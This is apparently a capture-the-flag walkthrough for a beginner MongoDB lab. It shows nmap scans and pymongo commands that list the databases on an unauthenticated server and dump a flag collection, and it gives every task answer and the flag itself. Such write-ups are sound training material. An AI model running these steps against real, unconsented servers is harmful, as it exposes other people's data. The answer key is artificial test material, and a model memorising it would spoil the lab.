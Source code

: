# Mongod

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: MongoDB, Web, Databases, Reconnaissance, Misconfiguration, Anonymous/Guest Access - **Tools**: nmap
- **Tools**: nmap, ipython+pymongo or mongodb


# Walkthrough

- [MongoDB Command Reference](https://www.mongodb.com/docs/manual/reference/command/)

## Task 1: How many TCP ports are open on the machine?

```bash
> nmap -p- -sT --min-rate 3000 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:53 AEST
Nmap scan report for 10.129.58.99
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod
```

> **Answer**: 2

## Task 2: Which service is running on port 27017 of the remote host?

```bash
> nmap -sV -p 27017 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:55 AEST
Nmap scan report for 10.129.58.99
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8
```

> **Answer**: mongodb 3.6.8

## Task 3: What type of database is MongoDB? (Choose: SQL or NoSQL)

- **Explanation**: https://www.mongodb.com/nosql-explained

> **Answer**: NoSQL

## Task 4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

> **Answer**: mongo

## Task 5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

> **Answer**: show databases

## Task 6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

> **Answer**: show collections

## Task 7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

> **Answer**: db.flag.find().pretty()

# Submit Root Flag

We can use the lightweight `pymongo` python package. You can install this and use with `ipython` for a lightweight MongoDB client.
The advantage of utilising the python package is the ease in which we can automate it to suit our needs.
Howevr, in this case I've just run through the commands one-by-one to demonstrate the process:

```bash
> python3 -m pip install pymongo ipython
> ipython
In [1]: from pymongo import MongoClient

In [2]: client = MongoClient('10.129.58.99', 27017)

In [3]: print(client.list_database_names())
['admin', 'config', 'local', 'sensitive_information', 'users']

In [4]: database = client.admin

In [5]: database.list_collection_names()
Out[5]: ['system.version']

In [6]: database = client.sensitive_information

In [7]: database.list_collection_names()
Out[7]: ['flag']

In [8]: [print(x) for x in database['flag'].find()]
{'_id': ObjectId('630e3dbcb82540ebbd1748c5'), 'flag': '1b6e6fb359e7c40241b6d431427ba6ea'}
```

> **Answer**: 1b6e6fb359e7c40241b6d431427ba6ea
